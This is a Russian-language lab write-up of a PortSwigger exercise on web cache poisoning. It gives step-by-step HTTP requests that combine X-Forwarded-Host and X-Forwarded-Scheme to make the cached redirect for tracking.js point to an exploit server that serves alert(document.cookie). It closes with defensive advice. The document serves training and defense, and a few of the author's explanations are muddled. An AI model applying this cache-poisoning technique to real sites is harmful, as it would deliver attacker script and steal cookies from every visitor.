







## Использование нескольких заголовков для использования уязвимостей отравления веб-кэша

-----
пример
```http
GET /random HTTP/1.1 
Host: innocent-site.com 
X-Forwarded-Proto: http
```


-------
лаба https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-multiple-headers
#### Web cache poisoning with multiple headers
задание:
отравить веб кеш глав стр так, чтобы все юзеры посещающие его после атаки (с учетом времени жизни ключа) - получили в своем браузере -  `   alert(document.cookie)   `

-------
вот ориг запрос на гл стра

```http
GET / HTTP/2
Host: 0a9000a4036814b6834855c700c5006f.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a9000a4036814b6834855c700c5006f.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

первый ответ
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=NyAtXl5o8zRnR4nFIe2GEUtUfgjN62U7; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 10988

```

повторный ответ
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 19
X-Cache: hit
Content-Length: 10988
```

ясно, что ответ кешируется и потом достается из кеша
кеш живет 30 сек

------

решил не мелочиться и сразу много добавил заголовков
```http
GET / HTTP/2
Host: 0a9000a4036814b6834855c700c5006f.web-security-academy.net
X-Forwarded-Host: xss111
X-Host: xss222
Accept-Language: xss333
X-Forwarded-Scheme: xss444
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a9000a4036814b6834855c700c5006f.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```


ответ 
```http
HTTP/2 302 Found
Location: https://xss111/
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 0


```

выстрелил `X-Forwarded-Host: xss111`

и теперь при попытке загрузить главную стр через любой браузер - я получаю редирект на xss777




то есть я могу вообще - куда угодно направить юзера, на любой сайт или сервер!
например на этот же сайт, только на другую стр с xss
или же:
в лабе как -раз  есть эксплойт сервер, не просто же так, я могу там разместить скрипт: который вызовет в браузере жертвы `alert(document.cookie)`

--------
------

еще особенность есть: что если оставляю из дополнительных заголовков только `X-Forwarded-Host: xss111` - тогда редирект не работает
```http
GET / HTTP/2
Host: 0a0f00fe032d8eb5804dd0a2009c00f1.web-security-academy.net
X-Forwarded-Host: xss111
```

но если несколько - тогда работате
```http
GET / HTTP/2
Host: 0a0f00fe032d8eb5804dd0a2009c00f1.web-security-academy.net
X-Forwarded-Host: xss111
X-Host: xss222
Accept-Language: xss333
X-Forwarded-Scheme: xss444
```

делаю запрос 
```http
GET / HTTP/2
Host: 0a0f00fe032d8eb5804dd0a2009c00f1.web-security-academy.net
X-Forwarded-Host: exploit-0a6200fb03748e40800ecf4e01c900f4.exploit-server.net/exploit
X-Host: xss222
Accept-Language: xss333
X-Forwarded-Scheme: xss444
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a9000a4036814b6834855c700c5006f.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Content-Type: text/html; charset=utf-8


```
ответ
```http
HTTP/2 302 Found
Location: https://exploit-0a6200fb03748e40800ecf4e01c900f4.exploit-server.net/exploit/
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 0


```

обновляю главную стр в обраузере 
и получаю Hello, world! прямо из эксплойта экплойт сервера лабы




-----

заливаю скрипт в тело ответа эксплойт сервера
```html
<html>
<body>
<script>alert('test');</script>
</body>
</html>
```

и браузер открывает это просто как текст
```
my new script!!!!
<html>
<body>
<script>alert('test');</script>
</body>
</html>
```




ответ
HTTP/2 302 Found
Location: https://exploit-0a6200fb03748e40800ecf4e01c900f4.exploit-server.net/exploit/
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 0

и здесь нет указаний -- >> Content-Type: text/html

наверно поэтому - это все открывается просто как текст

-------
просмотрев карту сайта - нахожу это
по запросу
```http
GET /resources/js/tracking.js HTTP/2
```

ответ
```http
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 70

document.write('');

```




----


делаю запрос 
```http
GET / HTTP/2
Host: 0a0f00fe032d8eb5804dd0a2009c00f1.web-security-academy.net
X-Forwarded-Host: exploit-0a6200fb03748e40800ecf4e01c900f4.exploit-server.net/resources/js/tracking.js
X-Host: xss222
Accept-Language: xss333
X-Forwarded-Scheme: xss444
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a9000a4036814b6834855c700c5006f.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```
ответ  теперь с релокейтом на эксплойт сервер
```http
HTTP/2 302 Found
Location: https://exploit-0a6200fb03748e40800ecf4e01c900f4.exploit-server.net/resources/js/tracking.js/
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 2
X-Cache: hit
Content-Length: 0


```
на сервер отвечает мне скриптом
как текстом `<script>alert("hack-epta")</script>`




вот код стр как отображется мой скрипт
```html
<pre style="word-wrap: break-word; white-space: pre-wrap;">&lt;script&gt;alert("hack-epta")&lt;/script&gt;
</pre>
```

вот так открывается мой скрипт при редиректе на него
```http
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
Server: Academy Exploit Server
Content-Length: 23

alert(7777777777777777)

```
то есть как текст - все мои пейлоады - они сука - как текст!
и я че только не делал с этим Content-Type!!!!!! результат не меняется!

-----

нужно настроить head чтобы браузер понимал как правильно парсить страницу

делаю head `Content-Type: text/html; charset=utf-8` на эксплойт сервере

делаю body ответа на эксплойт сервере
```html
<!DOCTYPE html>
<html lang="ru">
    <script>
       alert(1);
    </script>
</body>
</html>
```
и теперь при открытии сервера, в браузере срабатывает алерт!

-----

отлично, теперь при после отравления кеша при редиректе на мой эксплойт сервер и всех юзеров срабатывает просто алерт, (по крайней мере у тех, у кого стоит хром)




-------

теперь меню алерт 1 на `   alert(document.cookie)   `

-----

и все работает!!

я одним запросом отравляю кеш 

и на все любые другие запросы к главной странице сайта
я получаю ответ (и любой юзер тоже его получает)

вот такой ответ с редиректом
```http
HTTP/2 302 Found
Location: https://exploit-0a6200fb03748e40800ecf4e01c900f4.exploit-server.net/resources/js/tracking.js/
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 2
X-Cache: hit
Content-Length: 0


```
и в браузере автоматически срабатывает алерт с (document.cookie)

-------

но лаба не решена.... почему то...

----
я пошел смотреть решение, ибо это издевательство уже, сайт и так по моим контролем
, я могу через него редиректить куда захочу..

----

делаю запрос
```http
GET /resources/js/tracking.js HTTP/2
Host: 0a0f00fe032d8eb5804dd0a2009c00f1.web-security-academy.net
X-Forwarded-Host: exploit-0a6200fb03748e40800ecf4e01c900f4.exploit-server.net/resources/js/tracking.js
X-Forwarded-Scheme: ftp
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Referer: https://0a9000a4036814b6834855c700c5006f.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=1


```

ответ с редиректом
```http
HTTP/2 302 Found
Location: https://exploit-0a6200fb03748e40800ecf4e01c900f4.exploit-server.net/resources/js/tracking.js/resources/js/tracking.js
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 1
X-Cache: hit
Content-Length: 0


```

вот сам запрос файла
```http
GET /resources/js/tracking.js/resources/js/tracking.js HTTP/2
Host: exploit-0a6200fb03748e40800ecf4e01c900f4.exploit-server.net
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```
ответ
```http
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
Server: Academy Exploit Server
Content-Length: 45

"Resource not found - Academy Exploit Server"
```

проблема здесь!!
`GET /resources/js/tracking.js/resources/js/tracking.js HTTP/2`
путь двойной получается: из-за того что путь указан и в url  и в параметре!

но если все тоже самое проделать и через запрос тот же но вот так GET / HTTP/2

то ответ от эксплойт сервера вот такой -  просто текстом
```http
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
Server: Academy Exploit Server
Content-Length: 22

alert(document.cookie)
```

-------

вот настройка эксплойт сервера




отправлю запрос - 

```http
GET /resources/js/tracking.js HTTP/2
Host: 0a0f00fe032d8eb5804dd0a2009c00f1.web-security-academy.net
X-Forwarded-Scheme: http
X-Forwarded-Host: exploit-0a6200fb03748e40800ecf4e01c900f4.exploit-server.net
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a9000a4036814b6834855c700c5006f.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

получаю ответ из кеша
```http
HTTP/2 302 Found
Location: https://exploit-0af8008503ea61f380aab61e016f0078.exploit-server.net/resources/js/tracking.js
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 3
X-Cache: hit
Content-Length: 0


```

и перехожу на главн страницу !
чуть позже жертва в лабе перешла на главную стр, у него сработал алерт
лаба решена..

------

## выводы

первое - что обнаружил - что ответы кешируются на 30 сек

второе - то что оба заголовка вместе позволяют отравить редирект!!

третье - получилось вызвать без проблем в браузере любой js код при переходе на главную страницу после отравления кеша,  что уже само по себе ого-го какая уяхвимость!

я вызывал аллерт с кукой  через получение отравленного кеша - но лаба не решалась

потом в решении подсмотрел, что нужно делать запрос с отравлением через GET /resources/js/tracking.js, так как этот файл работает на всех страницах сайта!

```http
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 70

document.write('');

```


-----


для атаки нужно использовать два заголовка одновременно: `X-Forwarded-Scheme` со значением не https и `X-Forwarded-Host` с адресом эксплойт-сервера. По отдельности эти заголовки не работают
 
атаковать нужно не главную страницу, а файл tracking.js. Этот файл подключается на всех страницах сайта, поэтому при отравлении его кэша пострадают все посетители
 
эксплойт-сервер должен возвращать JavaScript код с типом application/javascript, а не HTML. Тело ответа должно содержать только alert(document.cookie) без тегов
  
атака на главную страницу не сработает, потому что браузер не выполняет JavaScript при навигационном переходе. Нужно атаковать скрипт, который подгружается на страницу


----

#### защита

использовать ключ кэша на основе всех входных данных - включать все заголовки, влияющие на ответ, в ключ кэша. Особенно важны заголовки типа X-Forwarded-
 
Не использовать пользовательские заголовки для генерации критических частей ответа - например, для формирования Location в редиректах
   
нормализовать и валидировать заголовки- проверять значения X-Forwarded-Host на соответствие ожидаемым доменам, отбрасывать недопустимые
   
отключать кэширование для ответов с редиректами - если ответ содержит 302, 301 или Location, не сохранять его в кэш
   
использовать заголовок Vary - указывать в Vary все заголовки, которые влияют на ответ, чтобы кэш учитывал их
   
ограничивать использование устаревших заголовков - отключать или жестко фильтровать X-Forwarded-Host, X-Forwarded-Scheme, X-Forwarded-Proto, если они не нужны
   
применять Content Security Policy - ограничивать источники загрузки скриптов, чтобы даже при редиректе вредоносный скрипт не выполнился
